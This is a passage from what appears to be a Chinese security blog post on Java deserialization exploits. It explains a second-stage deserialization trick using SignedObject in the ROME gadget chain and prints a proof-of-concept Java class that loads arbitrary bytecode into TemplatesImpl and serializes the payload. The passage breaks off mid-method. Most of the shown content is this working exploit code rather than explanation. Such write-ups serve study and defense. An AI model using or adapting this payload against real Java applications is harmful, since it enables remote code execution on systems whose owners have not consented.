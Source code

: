 这里第二次弹计算机其实道理一样，也是二次反序列化，其调用栈：

![img](https://img2023.cnblogs.com/blog/3450378/202409/3450378-20240904164915036-1916273957.png)

我们可以通过修改 hashmap2 调用 put 时的参数，再利用反射修改回来，达到只在反序列化时进行二次反序列化触发的效果。最终 poc

```java
package org.example;  
  
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import com.sun.syndication.feed.impl.ObjectBean;  
import com.sun.syndication.feed.impl.ToStringBean;  
import org.apache.commons.collections.functors.ConstantTransformer;  
  
import javax.xml.transform.Templates;  
import java.io.*;  
import java.lang.reflect.Field;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
import java.security.*;  
import java.util.HashMap;  
  
public class rome1ser {  
    public static void setFieldValue(Object obj, String fieldName, Object value) throws NoSuchFieldException, IllegalAccessException {  
        Field f = obj.getClass().getDeclaredField(fieldName);  
        f.setAccessible(true);  
        f.set(obj, value);  
    }  
  
    public static HashMap getPayload(Class clazz, Object obj) {  
        ObjectBean objectBean = new ObjectBean(ToStringBean.class, new ToStringBean(clazz, obj));  
        HashMap hashMap = new HashMap();  
        hashMap.put(objectBean, "gaoren");  
        return hashMap;  
    }  
  
    public static void main(String[] args) throws NoSuchAlgorithmException, IOException, SignatureException, InvalidKeyException,NoSuchFieldException, IllegalAccessException, ClassNotFoundException {  
        TemplatesImpl templatesImpl = new TemplatesImpl();  
        byte[] code = Files.readAllBytes(Paths.get("D:/gaoren.class"));  
        setFieldValue(templatesImpl, "_bytecodes", new byte[][]{code});  
        setFieldValue(templatesImpl, "_name", "gaoren");  
        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");  
        kpg.initialize(1024);  
        KeyPair kp = kpg.generateKeyPair();  
        HashMap hashMap1 = getPayload(Templates.class, templatesImpl);  
        SignedObject signedObject = new SignedObject(hashMap1, kp.getPrivate(), Signature.getInstance("DSA"));  
        ToStringBean tobean = new ToStringBean(SignedObject.class,new ConstantTransformer(1));  
        ObjectBean objectBean = new ObjectBean(ToStringBean.class,tobean);  
        HashMap hashMap2 = new HashMap();  
        hashMap2.put(objectBean, "gaoren");  
        Field v = tobean.getClass().getDeclaredField("_obj");  
        v.setAccessible(true);  
        v.set(tobean, signedObject);  
        Unser(hashMap2);  
    }  
    public static void Unser(Object obj) throws IOException, ClassNotFoundException {  
        ByteArrayOutputStream bos = new ByteArrayOutputStream();  
        ObjectOutputStream oos = new ObjectOutputStream(bos);  
        oos.writeObject(obj);  
```